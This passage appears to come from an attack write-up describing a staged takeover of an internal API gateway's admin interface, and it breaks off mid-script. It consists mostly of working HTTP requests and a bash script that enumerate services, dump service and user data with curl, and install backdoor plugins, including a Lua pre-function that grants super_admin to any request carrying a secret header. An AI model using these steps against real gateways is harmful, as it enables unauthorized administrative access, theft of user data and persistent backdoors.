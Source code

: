**Phase 2: Administrative Takeover**
```http
GET /services HTTP/1.1
Host: staging-api-gateway.internal:8001

Response: 200 OK
{
  "data": [
    {
      "id": "service_auth",
      "name": "authentication-service",
      "url": "http://auth-service.internal:8080"
    },
    {
      "id": "service_siem", 
      "name": "siem-api",
      "url": "http://siem-service.internal:9000"
    }
  ]
}

POST /plugins HTTP/1.1
Host: staging-api-gateway.internal:8001
Content-Type: application/json

{
  "name": "request-transformer",
  "service": {"id": "service_auth"},
  "config": {
    "add": {
      "headers": ["X-Backdoor-Access: admin123"]
    }
  }
}

Response: 201 Created
{
  "id": "plugin_backdoor_123",
  "name": "request-transformer",
  "service": {"id": "service_auth"},
  "enabled": true
}
```

**Phase 3: System-Wide Compromise**
```bash
#!/bin/bash
# Complete API gateway takeover script

# 1. Extract all service configurations
curl http://staging-api-gateway.internal:8001/services > services_dump.json

# 2. Extract all consumer (user) data
curl http://staging-api-gateway.internal:8001/consumers > users_dump.json  

# 3. Create universal backdoor plugin
curl -X POST http://staging-api-gateway.internal:8001/plugins \
  -d '{
    "name": "pre-function",
    "config": {
      "access": [
        "if ngx.var.http_x_backdoor == \"admin123\" then",
        "  ngx.ctx.authenticated_user = {id=\"admin\", role=\"super_admin\"}",
        "  return", 
        "end"
```